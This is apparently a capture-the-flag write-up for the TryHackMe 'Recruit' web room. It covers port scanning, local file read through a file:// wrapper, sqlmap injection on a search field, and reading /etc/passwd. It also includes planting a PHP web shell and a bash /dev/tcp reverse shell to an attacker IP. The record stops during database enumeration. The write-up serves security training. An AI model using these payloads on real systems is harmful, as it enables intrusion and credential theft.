<p align="center">
  
</p>

<div align="center">

<table width="100%" border="1" cellpadding="6" cellspacing="0">
  <tr>
    <td align="left" ><b>🎯 Target</b></td>
    <td>Recruit - <code>https://tryhackme.com/room/recruitwebchallenge</code></td>
  </tr>
  <tr>
    <td align="left" ><b>👨‍💻 Author</b></td>
    <td><code>sonyahack1</code></td>
  </tr>
  <tr>
    <td align="left" ><b>📅 Date</b></td>
    <td>26.04.2026</td>
  </tr>
  <tr>
    <td align="left" ><b>📊 Difficulty</b></td>
    <td>Medium 🟡</td>
  </tr>
  <tr>
    <td align="left" ><b>📁 Category</b></td>
    <td> Web / PrivEsc / Linux </td>
  </tr>
  <tr>
    <td align="left" ><b>🛠️ Tools</b></td>
    <td> nmap | ffuf | netcat | burp suite | sqlmap </td>
  </tr>
  <tr>
    <td align="left" ><b>💀 Objectives</b></td>
    <td>
	<code>user flag</code><br>
	<code>admin flag</code><br>
   </td>
  </tr>

</table>

</div>

## Attack Flow

- [Discovery (nmap / ffuf)](#discovery-nmap--ffuf)
- [Credential Access (php wrapper)](#credential-access-php-wrapper)
- [sql injection (foothold)](#sql-injection-foothold)
- [Privilege Escalation](#privilege-escalation)

<h2 align="center"> ⚔️ Attack Implemented  </h2>

<div align="center">

<table width="100%" border="1" cellpadding="6" cellspacing="0">
  <thead>
    <tr>
      <th width="18%">Tactics</th>
      <th width="40%">Techniques</th>
      <th width="42%">Description</th>
    </tr>
  </thead>
  <tbody>

   <tr>
      <td align="left"><b>TA0001 - Initial Access</b></td>
      <td align="left"><b>T1133 - External Remote Services</b></td>
      <td>gaining access to the internal network via an OpenVPN configuration</td>
   </tr>

   <tr>
      <td align="left"><b>TA0004 - Privilege Escalation</b></td>
      <td align="left"><b>T1078.003 - Valid Accounts: Local Accounts</b></td>
      <td>valid administrator credentials stored in the MySQL database</td>
   </tr>

   <tr>
      <td align="left"><b>TA0006 - Credential Access</b></td>
      <td align="left"><b>T1552.001 - Unsecured Credentials: Credentials In Files</b></td>
      <td>credentials stored in config.php and db.php</td>
   </tr>

   <tr>
      <td rowspan=3 align="left"><b>TA0007 - Discovery</b></td>
      <td align="left"><b>T1046 - Network Service Discovery</b></td>
      <td>scanning ports and services of the internal target using Nmap</td>
   </tr>
   <tr>
      <td align="left"><b>T1049 - System Network Connections Discovery</b></td>
      <td>discovery of a MySQL service running on port 3306</td>
   </tr>
   <tr>
      <td align="left"><b>T1083 - File and Directory Discovery</b></td>
      <td>discovery of the db.php file</td>
   </tr>

   <tr>
      <td align="left"><b>TA0008 - Lateral Movement</b></td>
      <td align="left"><b>T1210 - Exploitation of Remote Services</b></td>
      <td>exploitation of an SQL injection vulnerability to gain remote access to the server</td>
   </tr>

   <tr>
      <td align="left"><b>TA0009 - Collection</b></td>
      <td align="left"><b>T1005 - Data from Local System </b></td>
      <td>data collection (user/root flags)</td>
   </tr>

   <tr>
      <td align="left"><b>TA0011 - Command and Control</b></td>
      <td align="left"><b>T1095 - Non-Application Layer Protocol </b></td>
      <td>establishing a reverse shell using Netcat</td>
   </tr>


  </tbody>
</table>

</div>

<h2 align="center"> 📝 Report </h2>

> [!IMPORTANT]
> `Initial access` to the internal lab network was established via a provided `OpenVPN configuration file (.ovpn)`, representing a simulated access path consistent with MITRE ATT&CK technique `T1133 (External Remote Services)`.
> Subsequent ATT&CK mappings focus on actions performed `after internal network access was established`.

```bash

sudo openvpn eu-west-3-sonyahack1-premium.ovpn

```

<p align="center">
 
</p>

### Discovery (nmap / ffuf)

> We begin by gathering information about the target. First, we perform a port scan using the following script:

```bash

#!/usr/bin/env bash

set -euo pipefail

ip="${1:-}"

if [[ -z "$ip" ]]; then
  echo "Usage: $0 <ip>"
  exit 1
fi

echo "[*] Scanning all ports on $ip"

open_ports=$(sudo nmap -p- --open --min-rate=1000 -T4 "$ip" | awk -F/ '/^[0-9]+\/tcp/ {print $1}' | paste -sd, -)

if [[ -z "$open_ports" ]]; then
  echo "[!] No open TCP ports found on $ip"
  exit 0
fi

echo "[+] Open ports: $open_ports"
echo "[*] Running service scan"

sudo nmap -sVC -vv -p"$open_ports" "$ip"

```

> The script operates in two stages:

- `1` it first identifies open ports on the target;
- `2` and then enumerates the services running on those ports.

```bash

./nmap_scan.sh 10.129.147.243
[*] Scanning all ports on 10.129.147.243
[+] Open ports: 22,53,80
[*] Running service scan

```

<p align="center">
 
</p>

> Based on the scan results, we observe the following services:

- `22` - ssh service for remote access is exposed.;
- `53` - a local DNS resolver;
- `80` - http web server powered by `Apache` is available;

> Let’s open the web resource on port `80` in a browser:

<p align="center">
 
</p>

> We are presented with a login form, but currently we do not have any valid credentials

> Let’s navigate to the `Access API` section and see what is available:

<p align="center">
 
</p>

> This `API` allows us to retrieve a file using the endpoint `/file.php?cv=<URL>`. Let’s try to fetch something:

<p align="center">
 
</p>

> Notice that we are not getting errors like `File not found` or `Permission denied`. Instead, we receive a message stating that `only local files are allowed`. We will revisit this later.

> At this point, we still have limited information. Let’s perform `fuzzing` to discover additional endpoints:

```bash

ffuf -u 'http://10.129.147.243/FUZZ' -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c

```

<p align="center">
 
</p>

> `ffuf` reveals an endpoint called `mail`. Let’s open it in the browser:

<p align="center">
 
</p>

> We find a file named `mail.log`. Let’s inspect it:

<p align="center">
 
</p>

> The log contains an email sent from the `HR team` to `IT Support`. It confirms that the new `Recruitment Portal` has been deployed successfully and that core features such as the `login page` and `API` are functioning correctly.

> More importantly, the email states that HR credentials (`username: hr`) are stored in the `config.php` file, while `administrator` credentials are stored in the backend `database`.

### Credential Access (php wrapper)

> Let’s return to the `API` and attempt to read `config.php`:

<p align="center">
 
</p>

> Direct access to `config.php` fails. Therefore, we use a `PHP stream wrapper` (`file://`), which allows functions like `file_get_contents()` to access local files via a URI scheme:

<p align="center">
 
</p>

> As a result, we successfully retrieve the password - `**********` from `config.php`. From the email logs, we already know the username.

> Using these credentials, we log into the `HR portal`:

<p align="center">
 
</p>

<p align="center">
 
</p>

> We obtain the first flag - `THM{**************}`

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 flag 1</b><br/>
      <code>THM{**************}</code>
    </td>
  </tr>
</table>

</div>

### sql injection (foothold)

> Inside the `HR system`, we notice a `search field` for candidates:

<p align="center">
 
</p>

<p align="center">
 
</p>

> The data is retrieved from the `backend database`, which suggests a potential `SQL Injection` vulnerability. Let’s intercept the request using `Burp Suite`:

<p align="center">
 
</p>

> We will test the `search` parameter for `SQL injection`. Save the request (sql_req.txt) and run `sqlmap`:

```bash

sudo sqlmap -r sql_req.txt -p search --batch --risk=2 --level=3

```

<p align="center">
 
</p>

> As we can see, `sqlmap` confirms that the search parameter is vulnerable and can be exploited using multiple techniques: `boolean-based`, `error-based`, `time-based`, and `UNION-based`.

> Let’s try to read files from the server, for example `/etc/passwd`:

```bash

sudo sqlmap -r sql_req.txt -p search --batch --risk=2 --level=3 --file-read=/etc/passwd

```

<p align="center">
 
</p>

<p align="center">
 
</p>

> Great — we have file read access. Next, let’s check if we can write files to the server:

```bash

sudo sqlmap -r sql_req.txt -p search --batch --risk=2 --level=3 --sql-query="SELECT @@secure_file_priv;"

```

<p align="center">
 
</p>

> The output `SELECT @@secure_file_priv: ''` - indicates that there are `no restrictions from MySQL on file write operations`. We proceed by creating a `shell.php` file containing PHP code:
> `<?php system($_GET['cmd']); ?>` and upload it to the web directory `/var/www/html/`:

```bash

sudo sqlmap -r sql_req.txt -p search --batch --risk=2 --level=3 --file-write=shell.php --file-dest=/var/www/html/shell.php

```

> Let’s verify that the shell is accessible:

```bash

curl --output - 'http://10.129.147.243/shell.php?cmd=id'

```

<p align="center">
 
</p>

> Next, we start a listener using `netcat` and trigger a `reverse shell`:

```bash

bash -c 'exec bash -i >& /dev/tcp/192.168.163.129/4141 0>&1' # в URL кодировке

```

<p align="center">
 
</p>

> Success — we have gained shell access.

> We perform `basic enumeration` and discover a file named `db.php`. Earlier, we learned from the email logs that `administrator credentials are stored in the database`. We read this file and obtain database credentials:

<p align="center">
 
</p>

> We also confirm that `MySQL` is running on the system:

```bash

ss -tulnp | grep -i listen

```

<p align="center">
 
</p>

### Privilege Escalation

> Using the discovered credentials, we connect to the database:

<p align="center">
 
</p>

> We find a database named `recruit_db` and within it, a table called `users`:

<p align="center">
 
</p>

